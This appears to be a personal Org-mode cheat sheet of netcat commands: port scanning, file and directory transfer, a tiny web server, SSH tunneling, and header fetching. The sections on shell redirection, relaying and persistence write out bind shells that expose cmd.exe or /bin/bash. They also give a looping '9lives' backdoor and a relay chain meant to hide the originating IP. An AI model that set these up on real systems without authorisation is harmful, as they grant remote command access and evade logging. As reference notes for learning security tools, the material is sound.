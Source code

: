 #+TAGS: net op


* netcat							     :net:op:
* Description
* Usage

> netcat <options> host port

** Send a udp packet instead of initiating with tcp connection
#+BEGIN_SRC sh
netcat -u $HOST $PORT
#+END_SRC

** Port Scanning 
- with the domain
#+BEGIN_SRC sh
netcat -z -v domain.com 1-1000 2>&1 | grep "succeeded"
#+END_SRC
- without the domain
#+BEGIN_SRC sh
netcat -z -n -v 127.0.0.1 1-1000 2>&1 | grep "succeeded"
#+END_SRC

** Communicate through Netcat
- On the server run
#+BEGIN_SRC sh
netcat -l 4444
#+END_SRC

#+BEGIN_SRC sh
netcat $DOMAIN 4444
#+END_SRC

- messages will now be able to send messages between the server and client

** Sending data 
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 > recieved_file
#+END_SRC

- On the sending machine
#+BEGIN_SRC sh
netcat $DOMAIN 4444 < original_file
#+END_SRC

*** Sending a directory compressed
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 | tar xvf -
#+END_SRC
- the dash indicates that the tar will operate on std input

- On the sending machine from inside the directory that is to be copied over
#+BEGIN_SRC sh
tar -czf - * | netcat $DOMAIN 4444
#+END_SRC

** Simple Web Server
- On sever run:
#+BEGIN_SRC sh
netcat -l 4444 < index.html
#+END_SRC

- To continually server page after first connection is closed
#+BEGIN_SRC sh
while true; do netcat -l 4444 < index.html; done
#+END_SRC

** Redirect a windows shell
#+BEGIN_SRC sh
nc -l -p 9999 -e cmd.exe
#+END_SRC
- ensure that the version of netcat that you use has the execute flag compiled
- always keep in mind that you are not in a terminal, but a cmd over the network

** Using netcat as a relay
Machine 1 - 192.168.0.10
#+BEGIN_SRC sh
netcat 192.168.0.11 -p 7777
#+END_SRC

Machine 2 - 192.168.0.11
#+BEGIN_SRC sh
netcat -l -p 7777 0<backpipe | netcat 192.168.0.12 8888 1>backpipe
#+END_SRC
- thiw now passes traffice between machine 1 and machine 2

Machine 3 - 192.168.0.12
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

-for persistents on linux the script below can be used
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

All traffic logged on machine 3 would only show the ip for Machine 2

** Persistence
- Windows
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

- Linux - 9lives.sh
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

** Tunneling with ssh
#+BEGIN_SRC sh
ssh -i Documents/id_rsa -L 8888:172.168.0.129:80 alick@172.16.0.134
#+END_SRC
** Getting site header
#+BEGIN_SRC sh
netcat example.com 80 <<END
HEAD / HTTP/1.1
Host: example.com


END
#+END_SRC
* Lecture
* Tutorial
** [[https://www.youtube.com/watch?v%3Dqo_sFS2A-mI][Introduction to Data Transfer with NetCat]]

* Books
[[file://home/crito/Documents/Security/Tools/Netcat_Starter.pdf][Netcat Starter]]
[[file://home/crito/Documents/Security/Tools/Netcat_Power_Tools.pdf][Netcat Power Tools]]
* Links

